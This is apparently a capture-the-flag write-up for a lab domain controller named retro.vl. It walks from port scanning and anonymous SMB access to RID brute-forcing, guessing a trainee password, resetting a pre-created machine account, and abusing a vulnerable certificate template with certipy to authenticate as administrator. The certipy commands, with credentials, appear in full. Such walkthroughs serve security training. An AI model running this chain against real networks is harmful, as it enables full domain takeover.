# Enumeration
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-13 08:24:33Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2023-07-23T21:06:31
|_Not valid after:  2024-07-22T21:06:31
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2023-07-23T21:06:31
|_Not valid after:  2024-07-22T21:06:31
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2023-07-23T21:06:31
|_Not valid after:  2024-07-22T21:06:31
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2023-07-23T21:06:31
|_Not valid after:  2024-07-22T21:06:31
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.retro.vl
| Not valid before: 2024-04-12T06:46:17
|_Not valid after:  2024-10-12T06:46:17
|_ssl-date: 2024-04-13T08:25:54+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETRO
|   NetBIOS_Domain_Name: RETRO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: retro.vl
|   DNS_Computer_Name: DC.retro.vl
|   DNS_Tree_Name: retro.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-13T08:25:15+00:00
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
 Using smbmap we notice a share called Trainees accessible anonymously

Accessing it there is a single file called Important.txt:

So trying an rid bruteforce to get usernames:

Now trying trainee password we get a login
Now we can access a share called Notes

And there is a note called todo.txt:

We have a precreated account.

It is banking

Now we can change password with *kpasswd*
Modify `/etc/krb5.conf`

Now changing password with kpasswd:


Now finding vulnerable certificates:
```
sudo certipy-ad find -u 'BANKING$' -p 'aditya123@' -dc-ip 10.10.96.55 -stdout -vulnerable
```

Now requesting certificate:
```
sudo certipy-ad req -u 'BANKING$'@retro.vl -c 'retro-DC-CA' -target 'DC.retro.vl' -template 'RetroClients' -upn 'administrator@retro.vl' -dc-ip 10.10.96.55 -key-size 4096 -debug
```
And authenticating:
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.96.55  
```
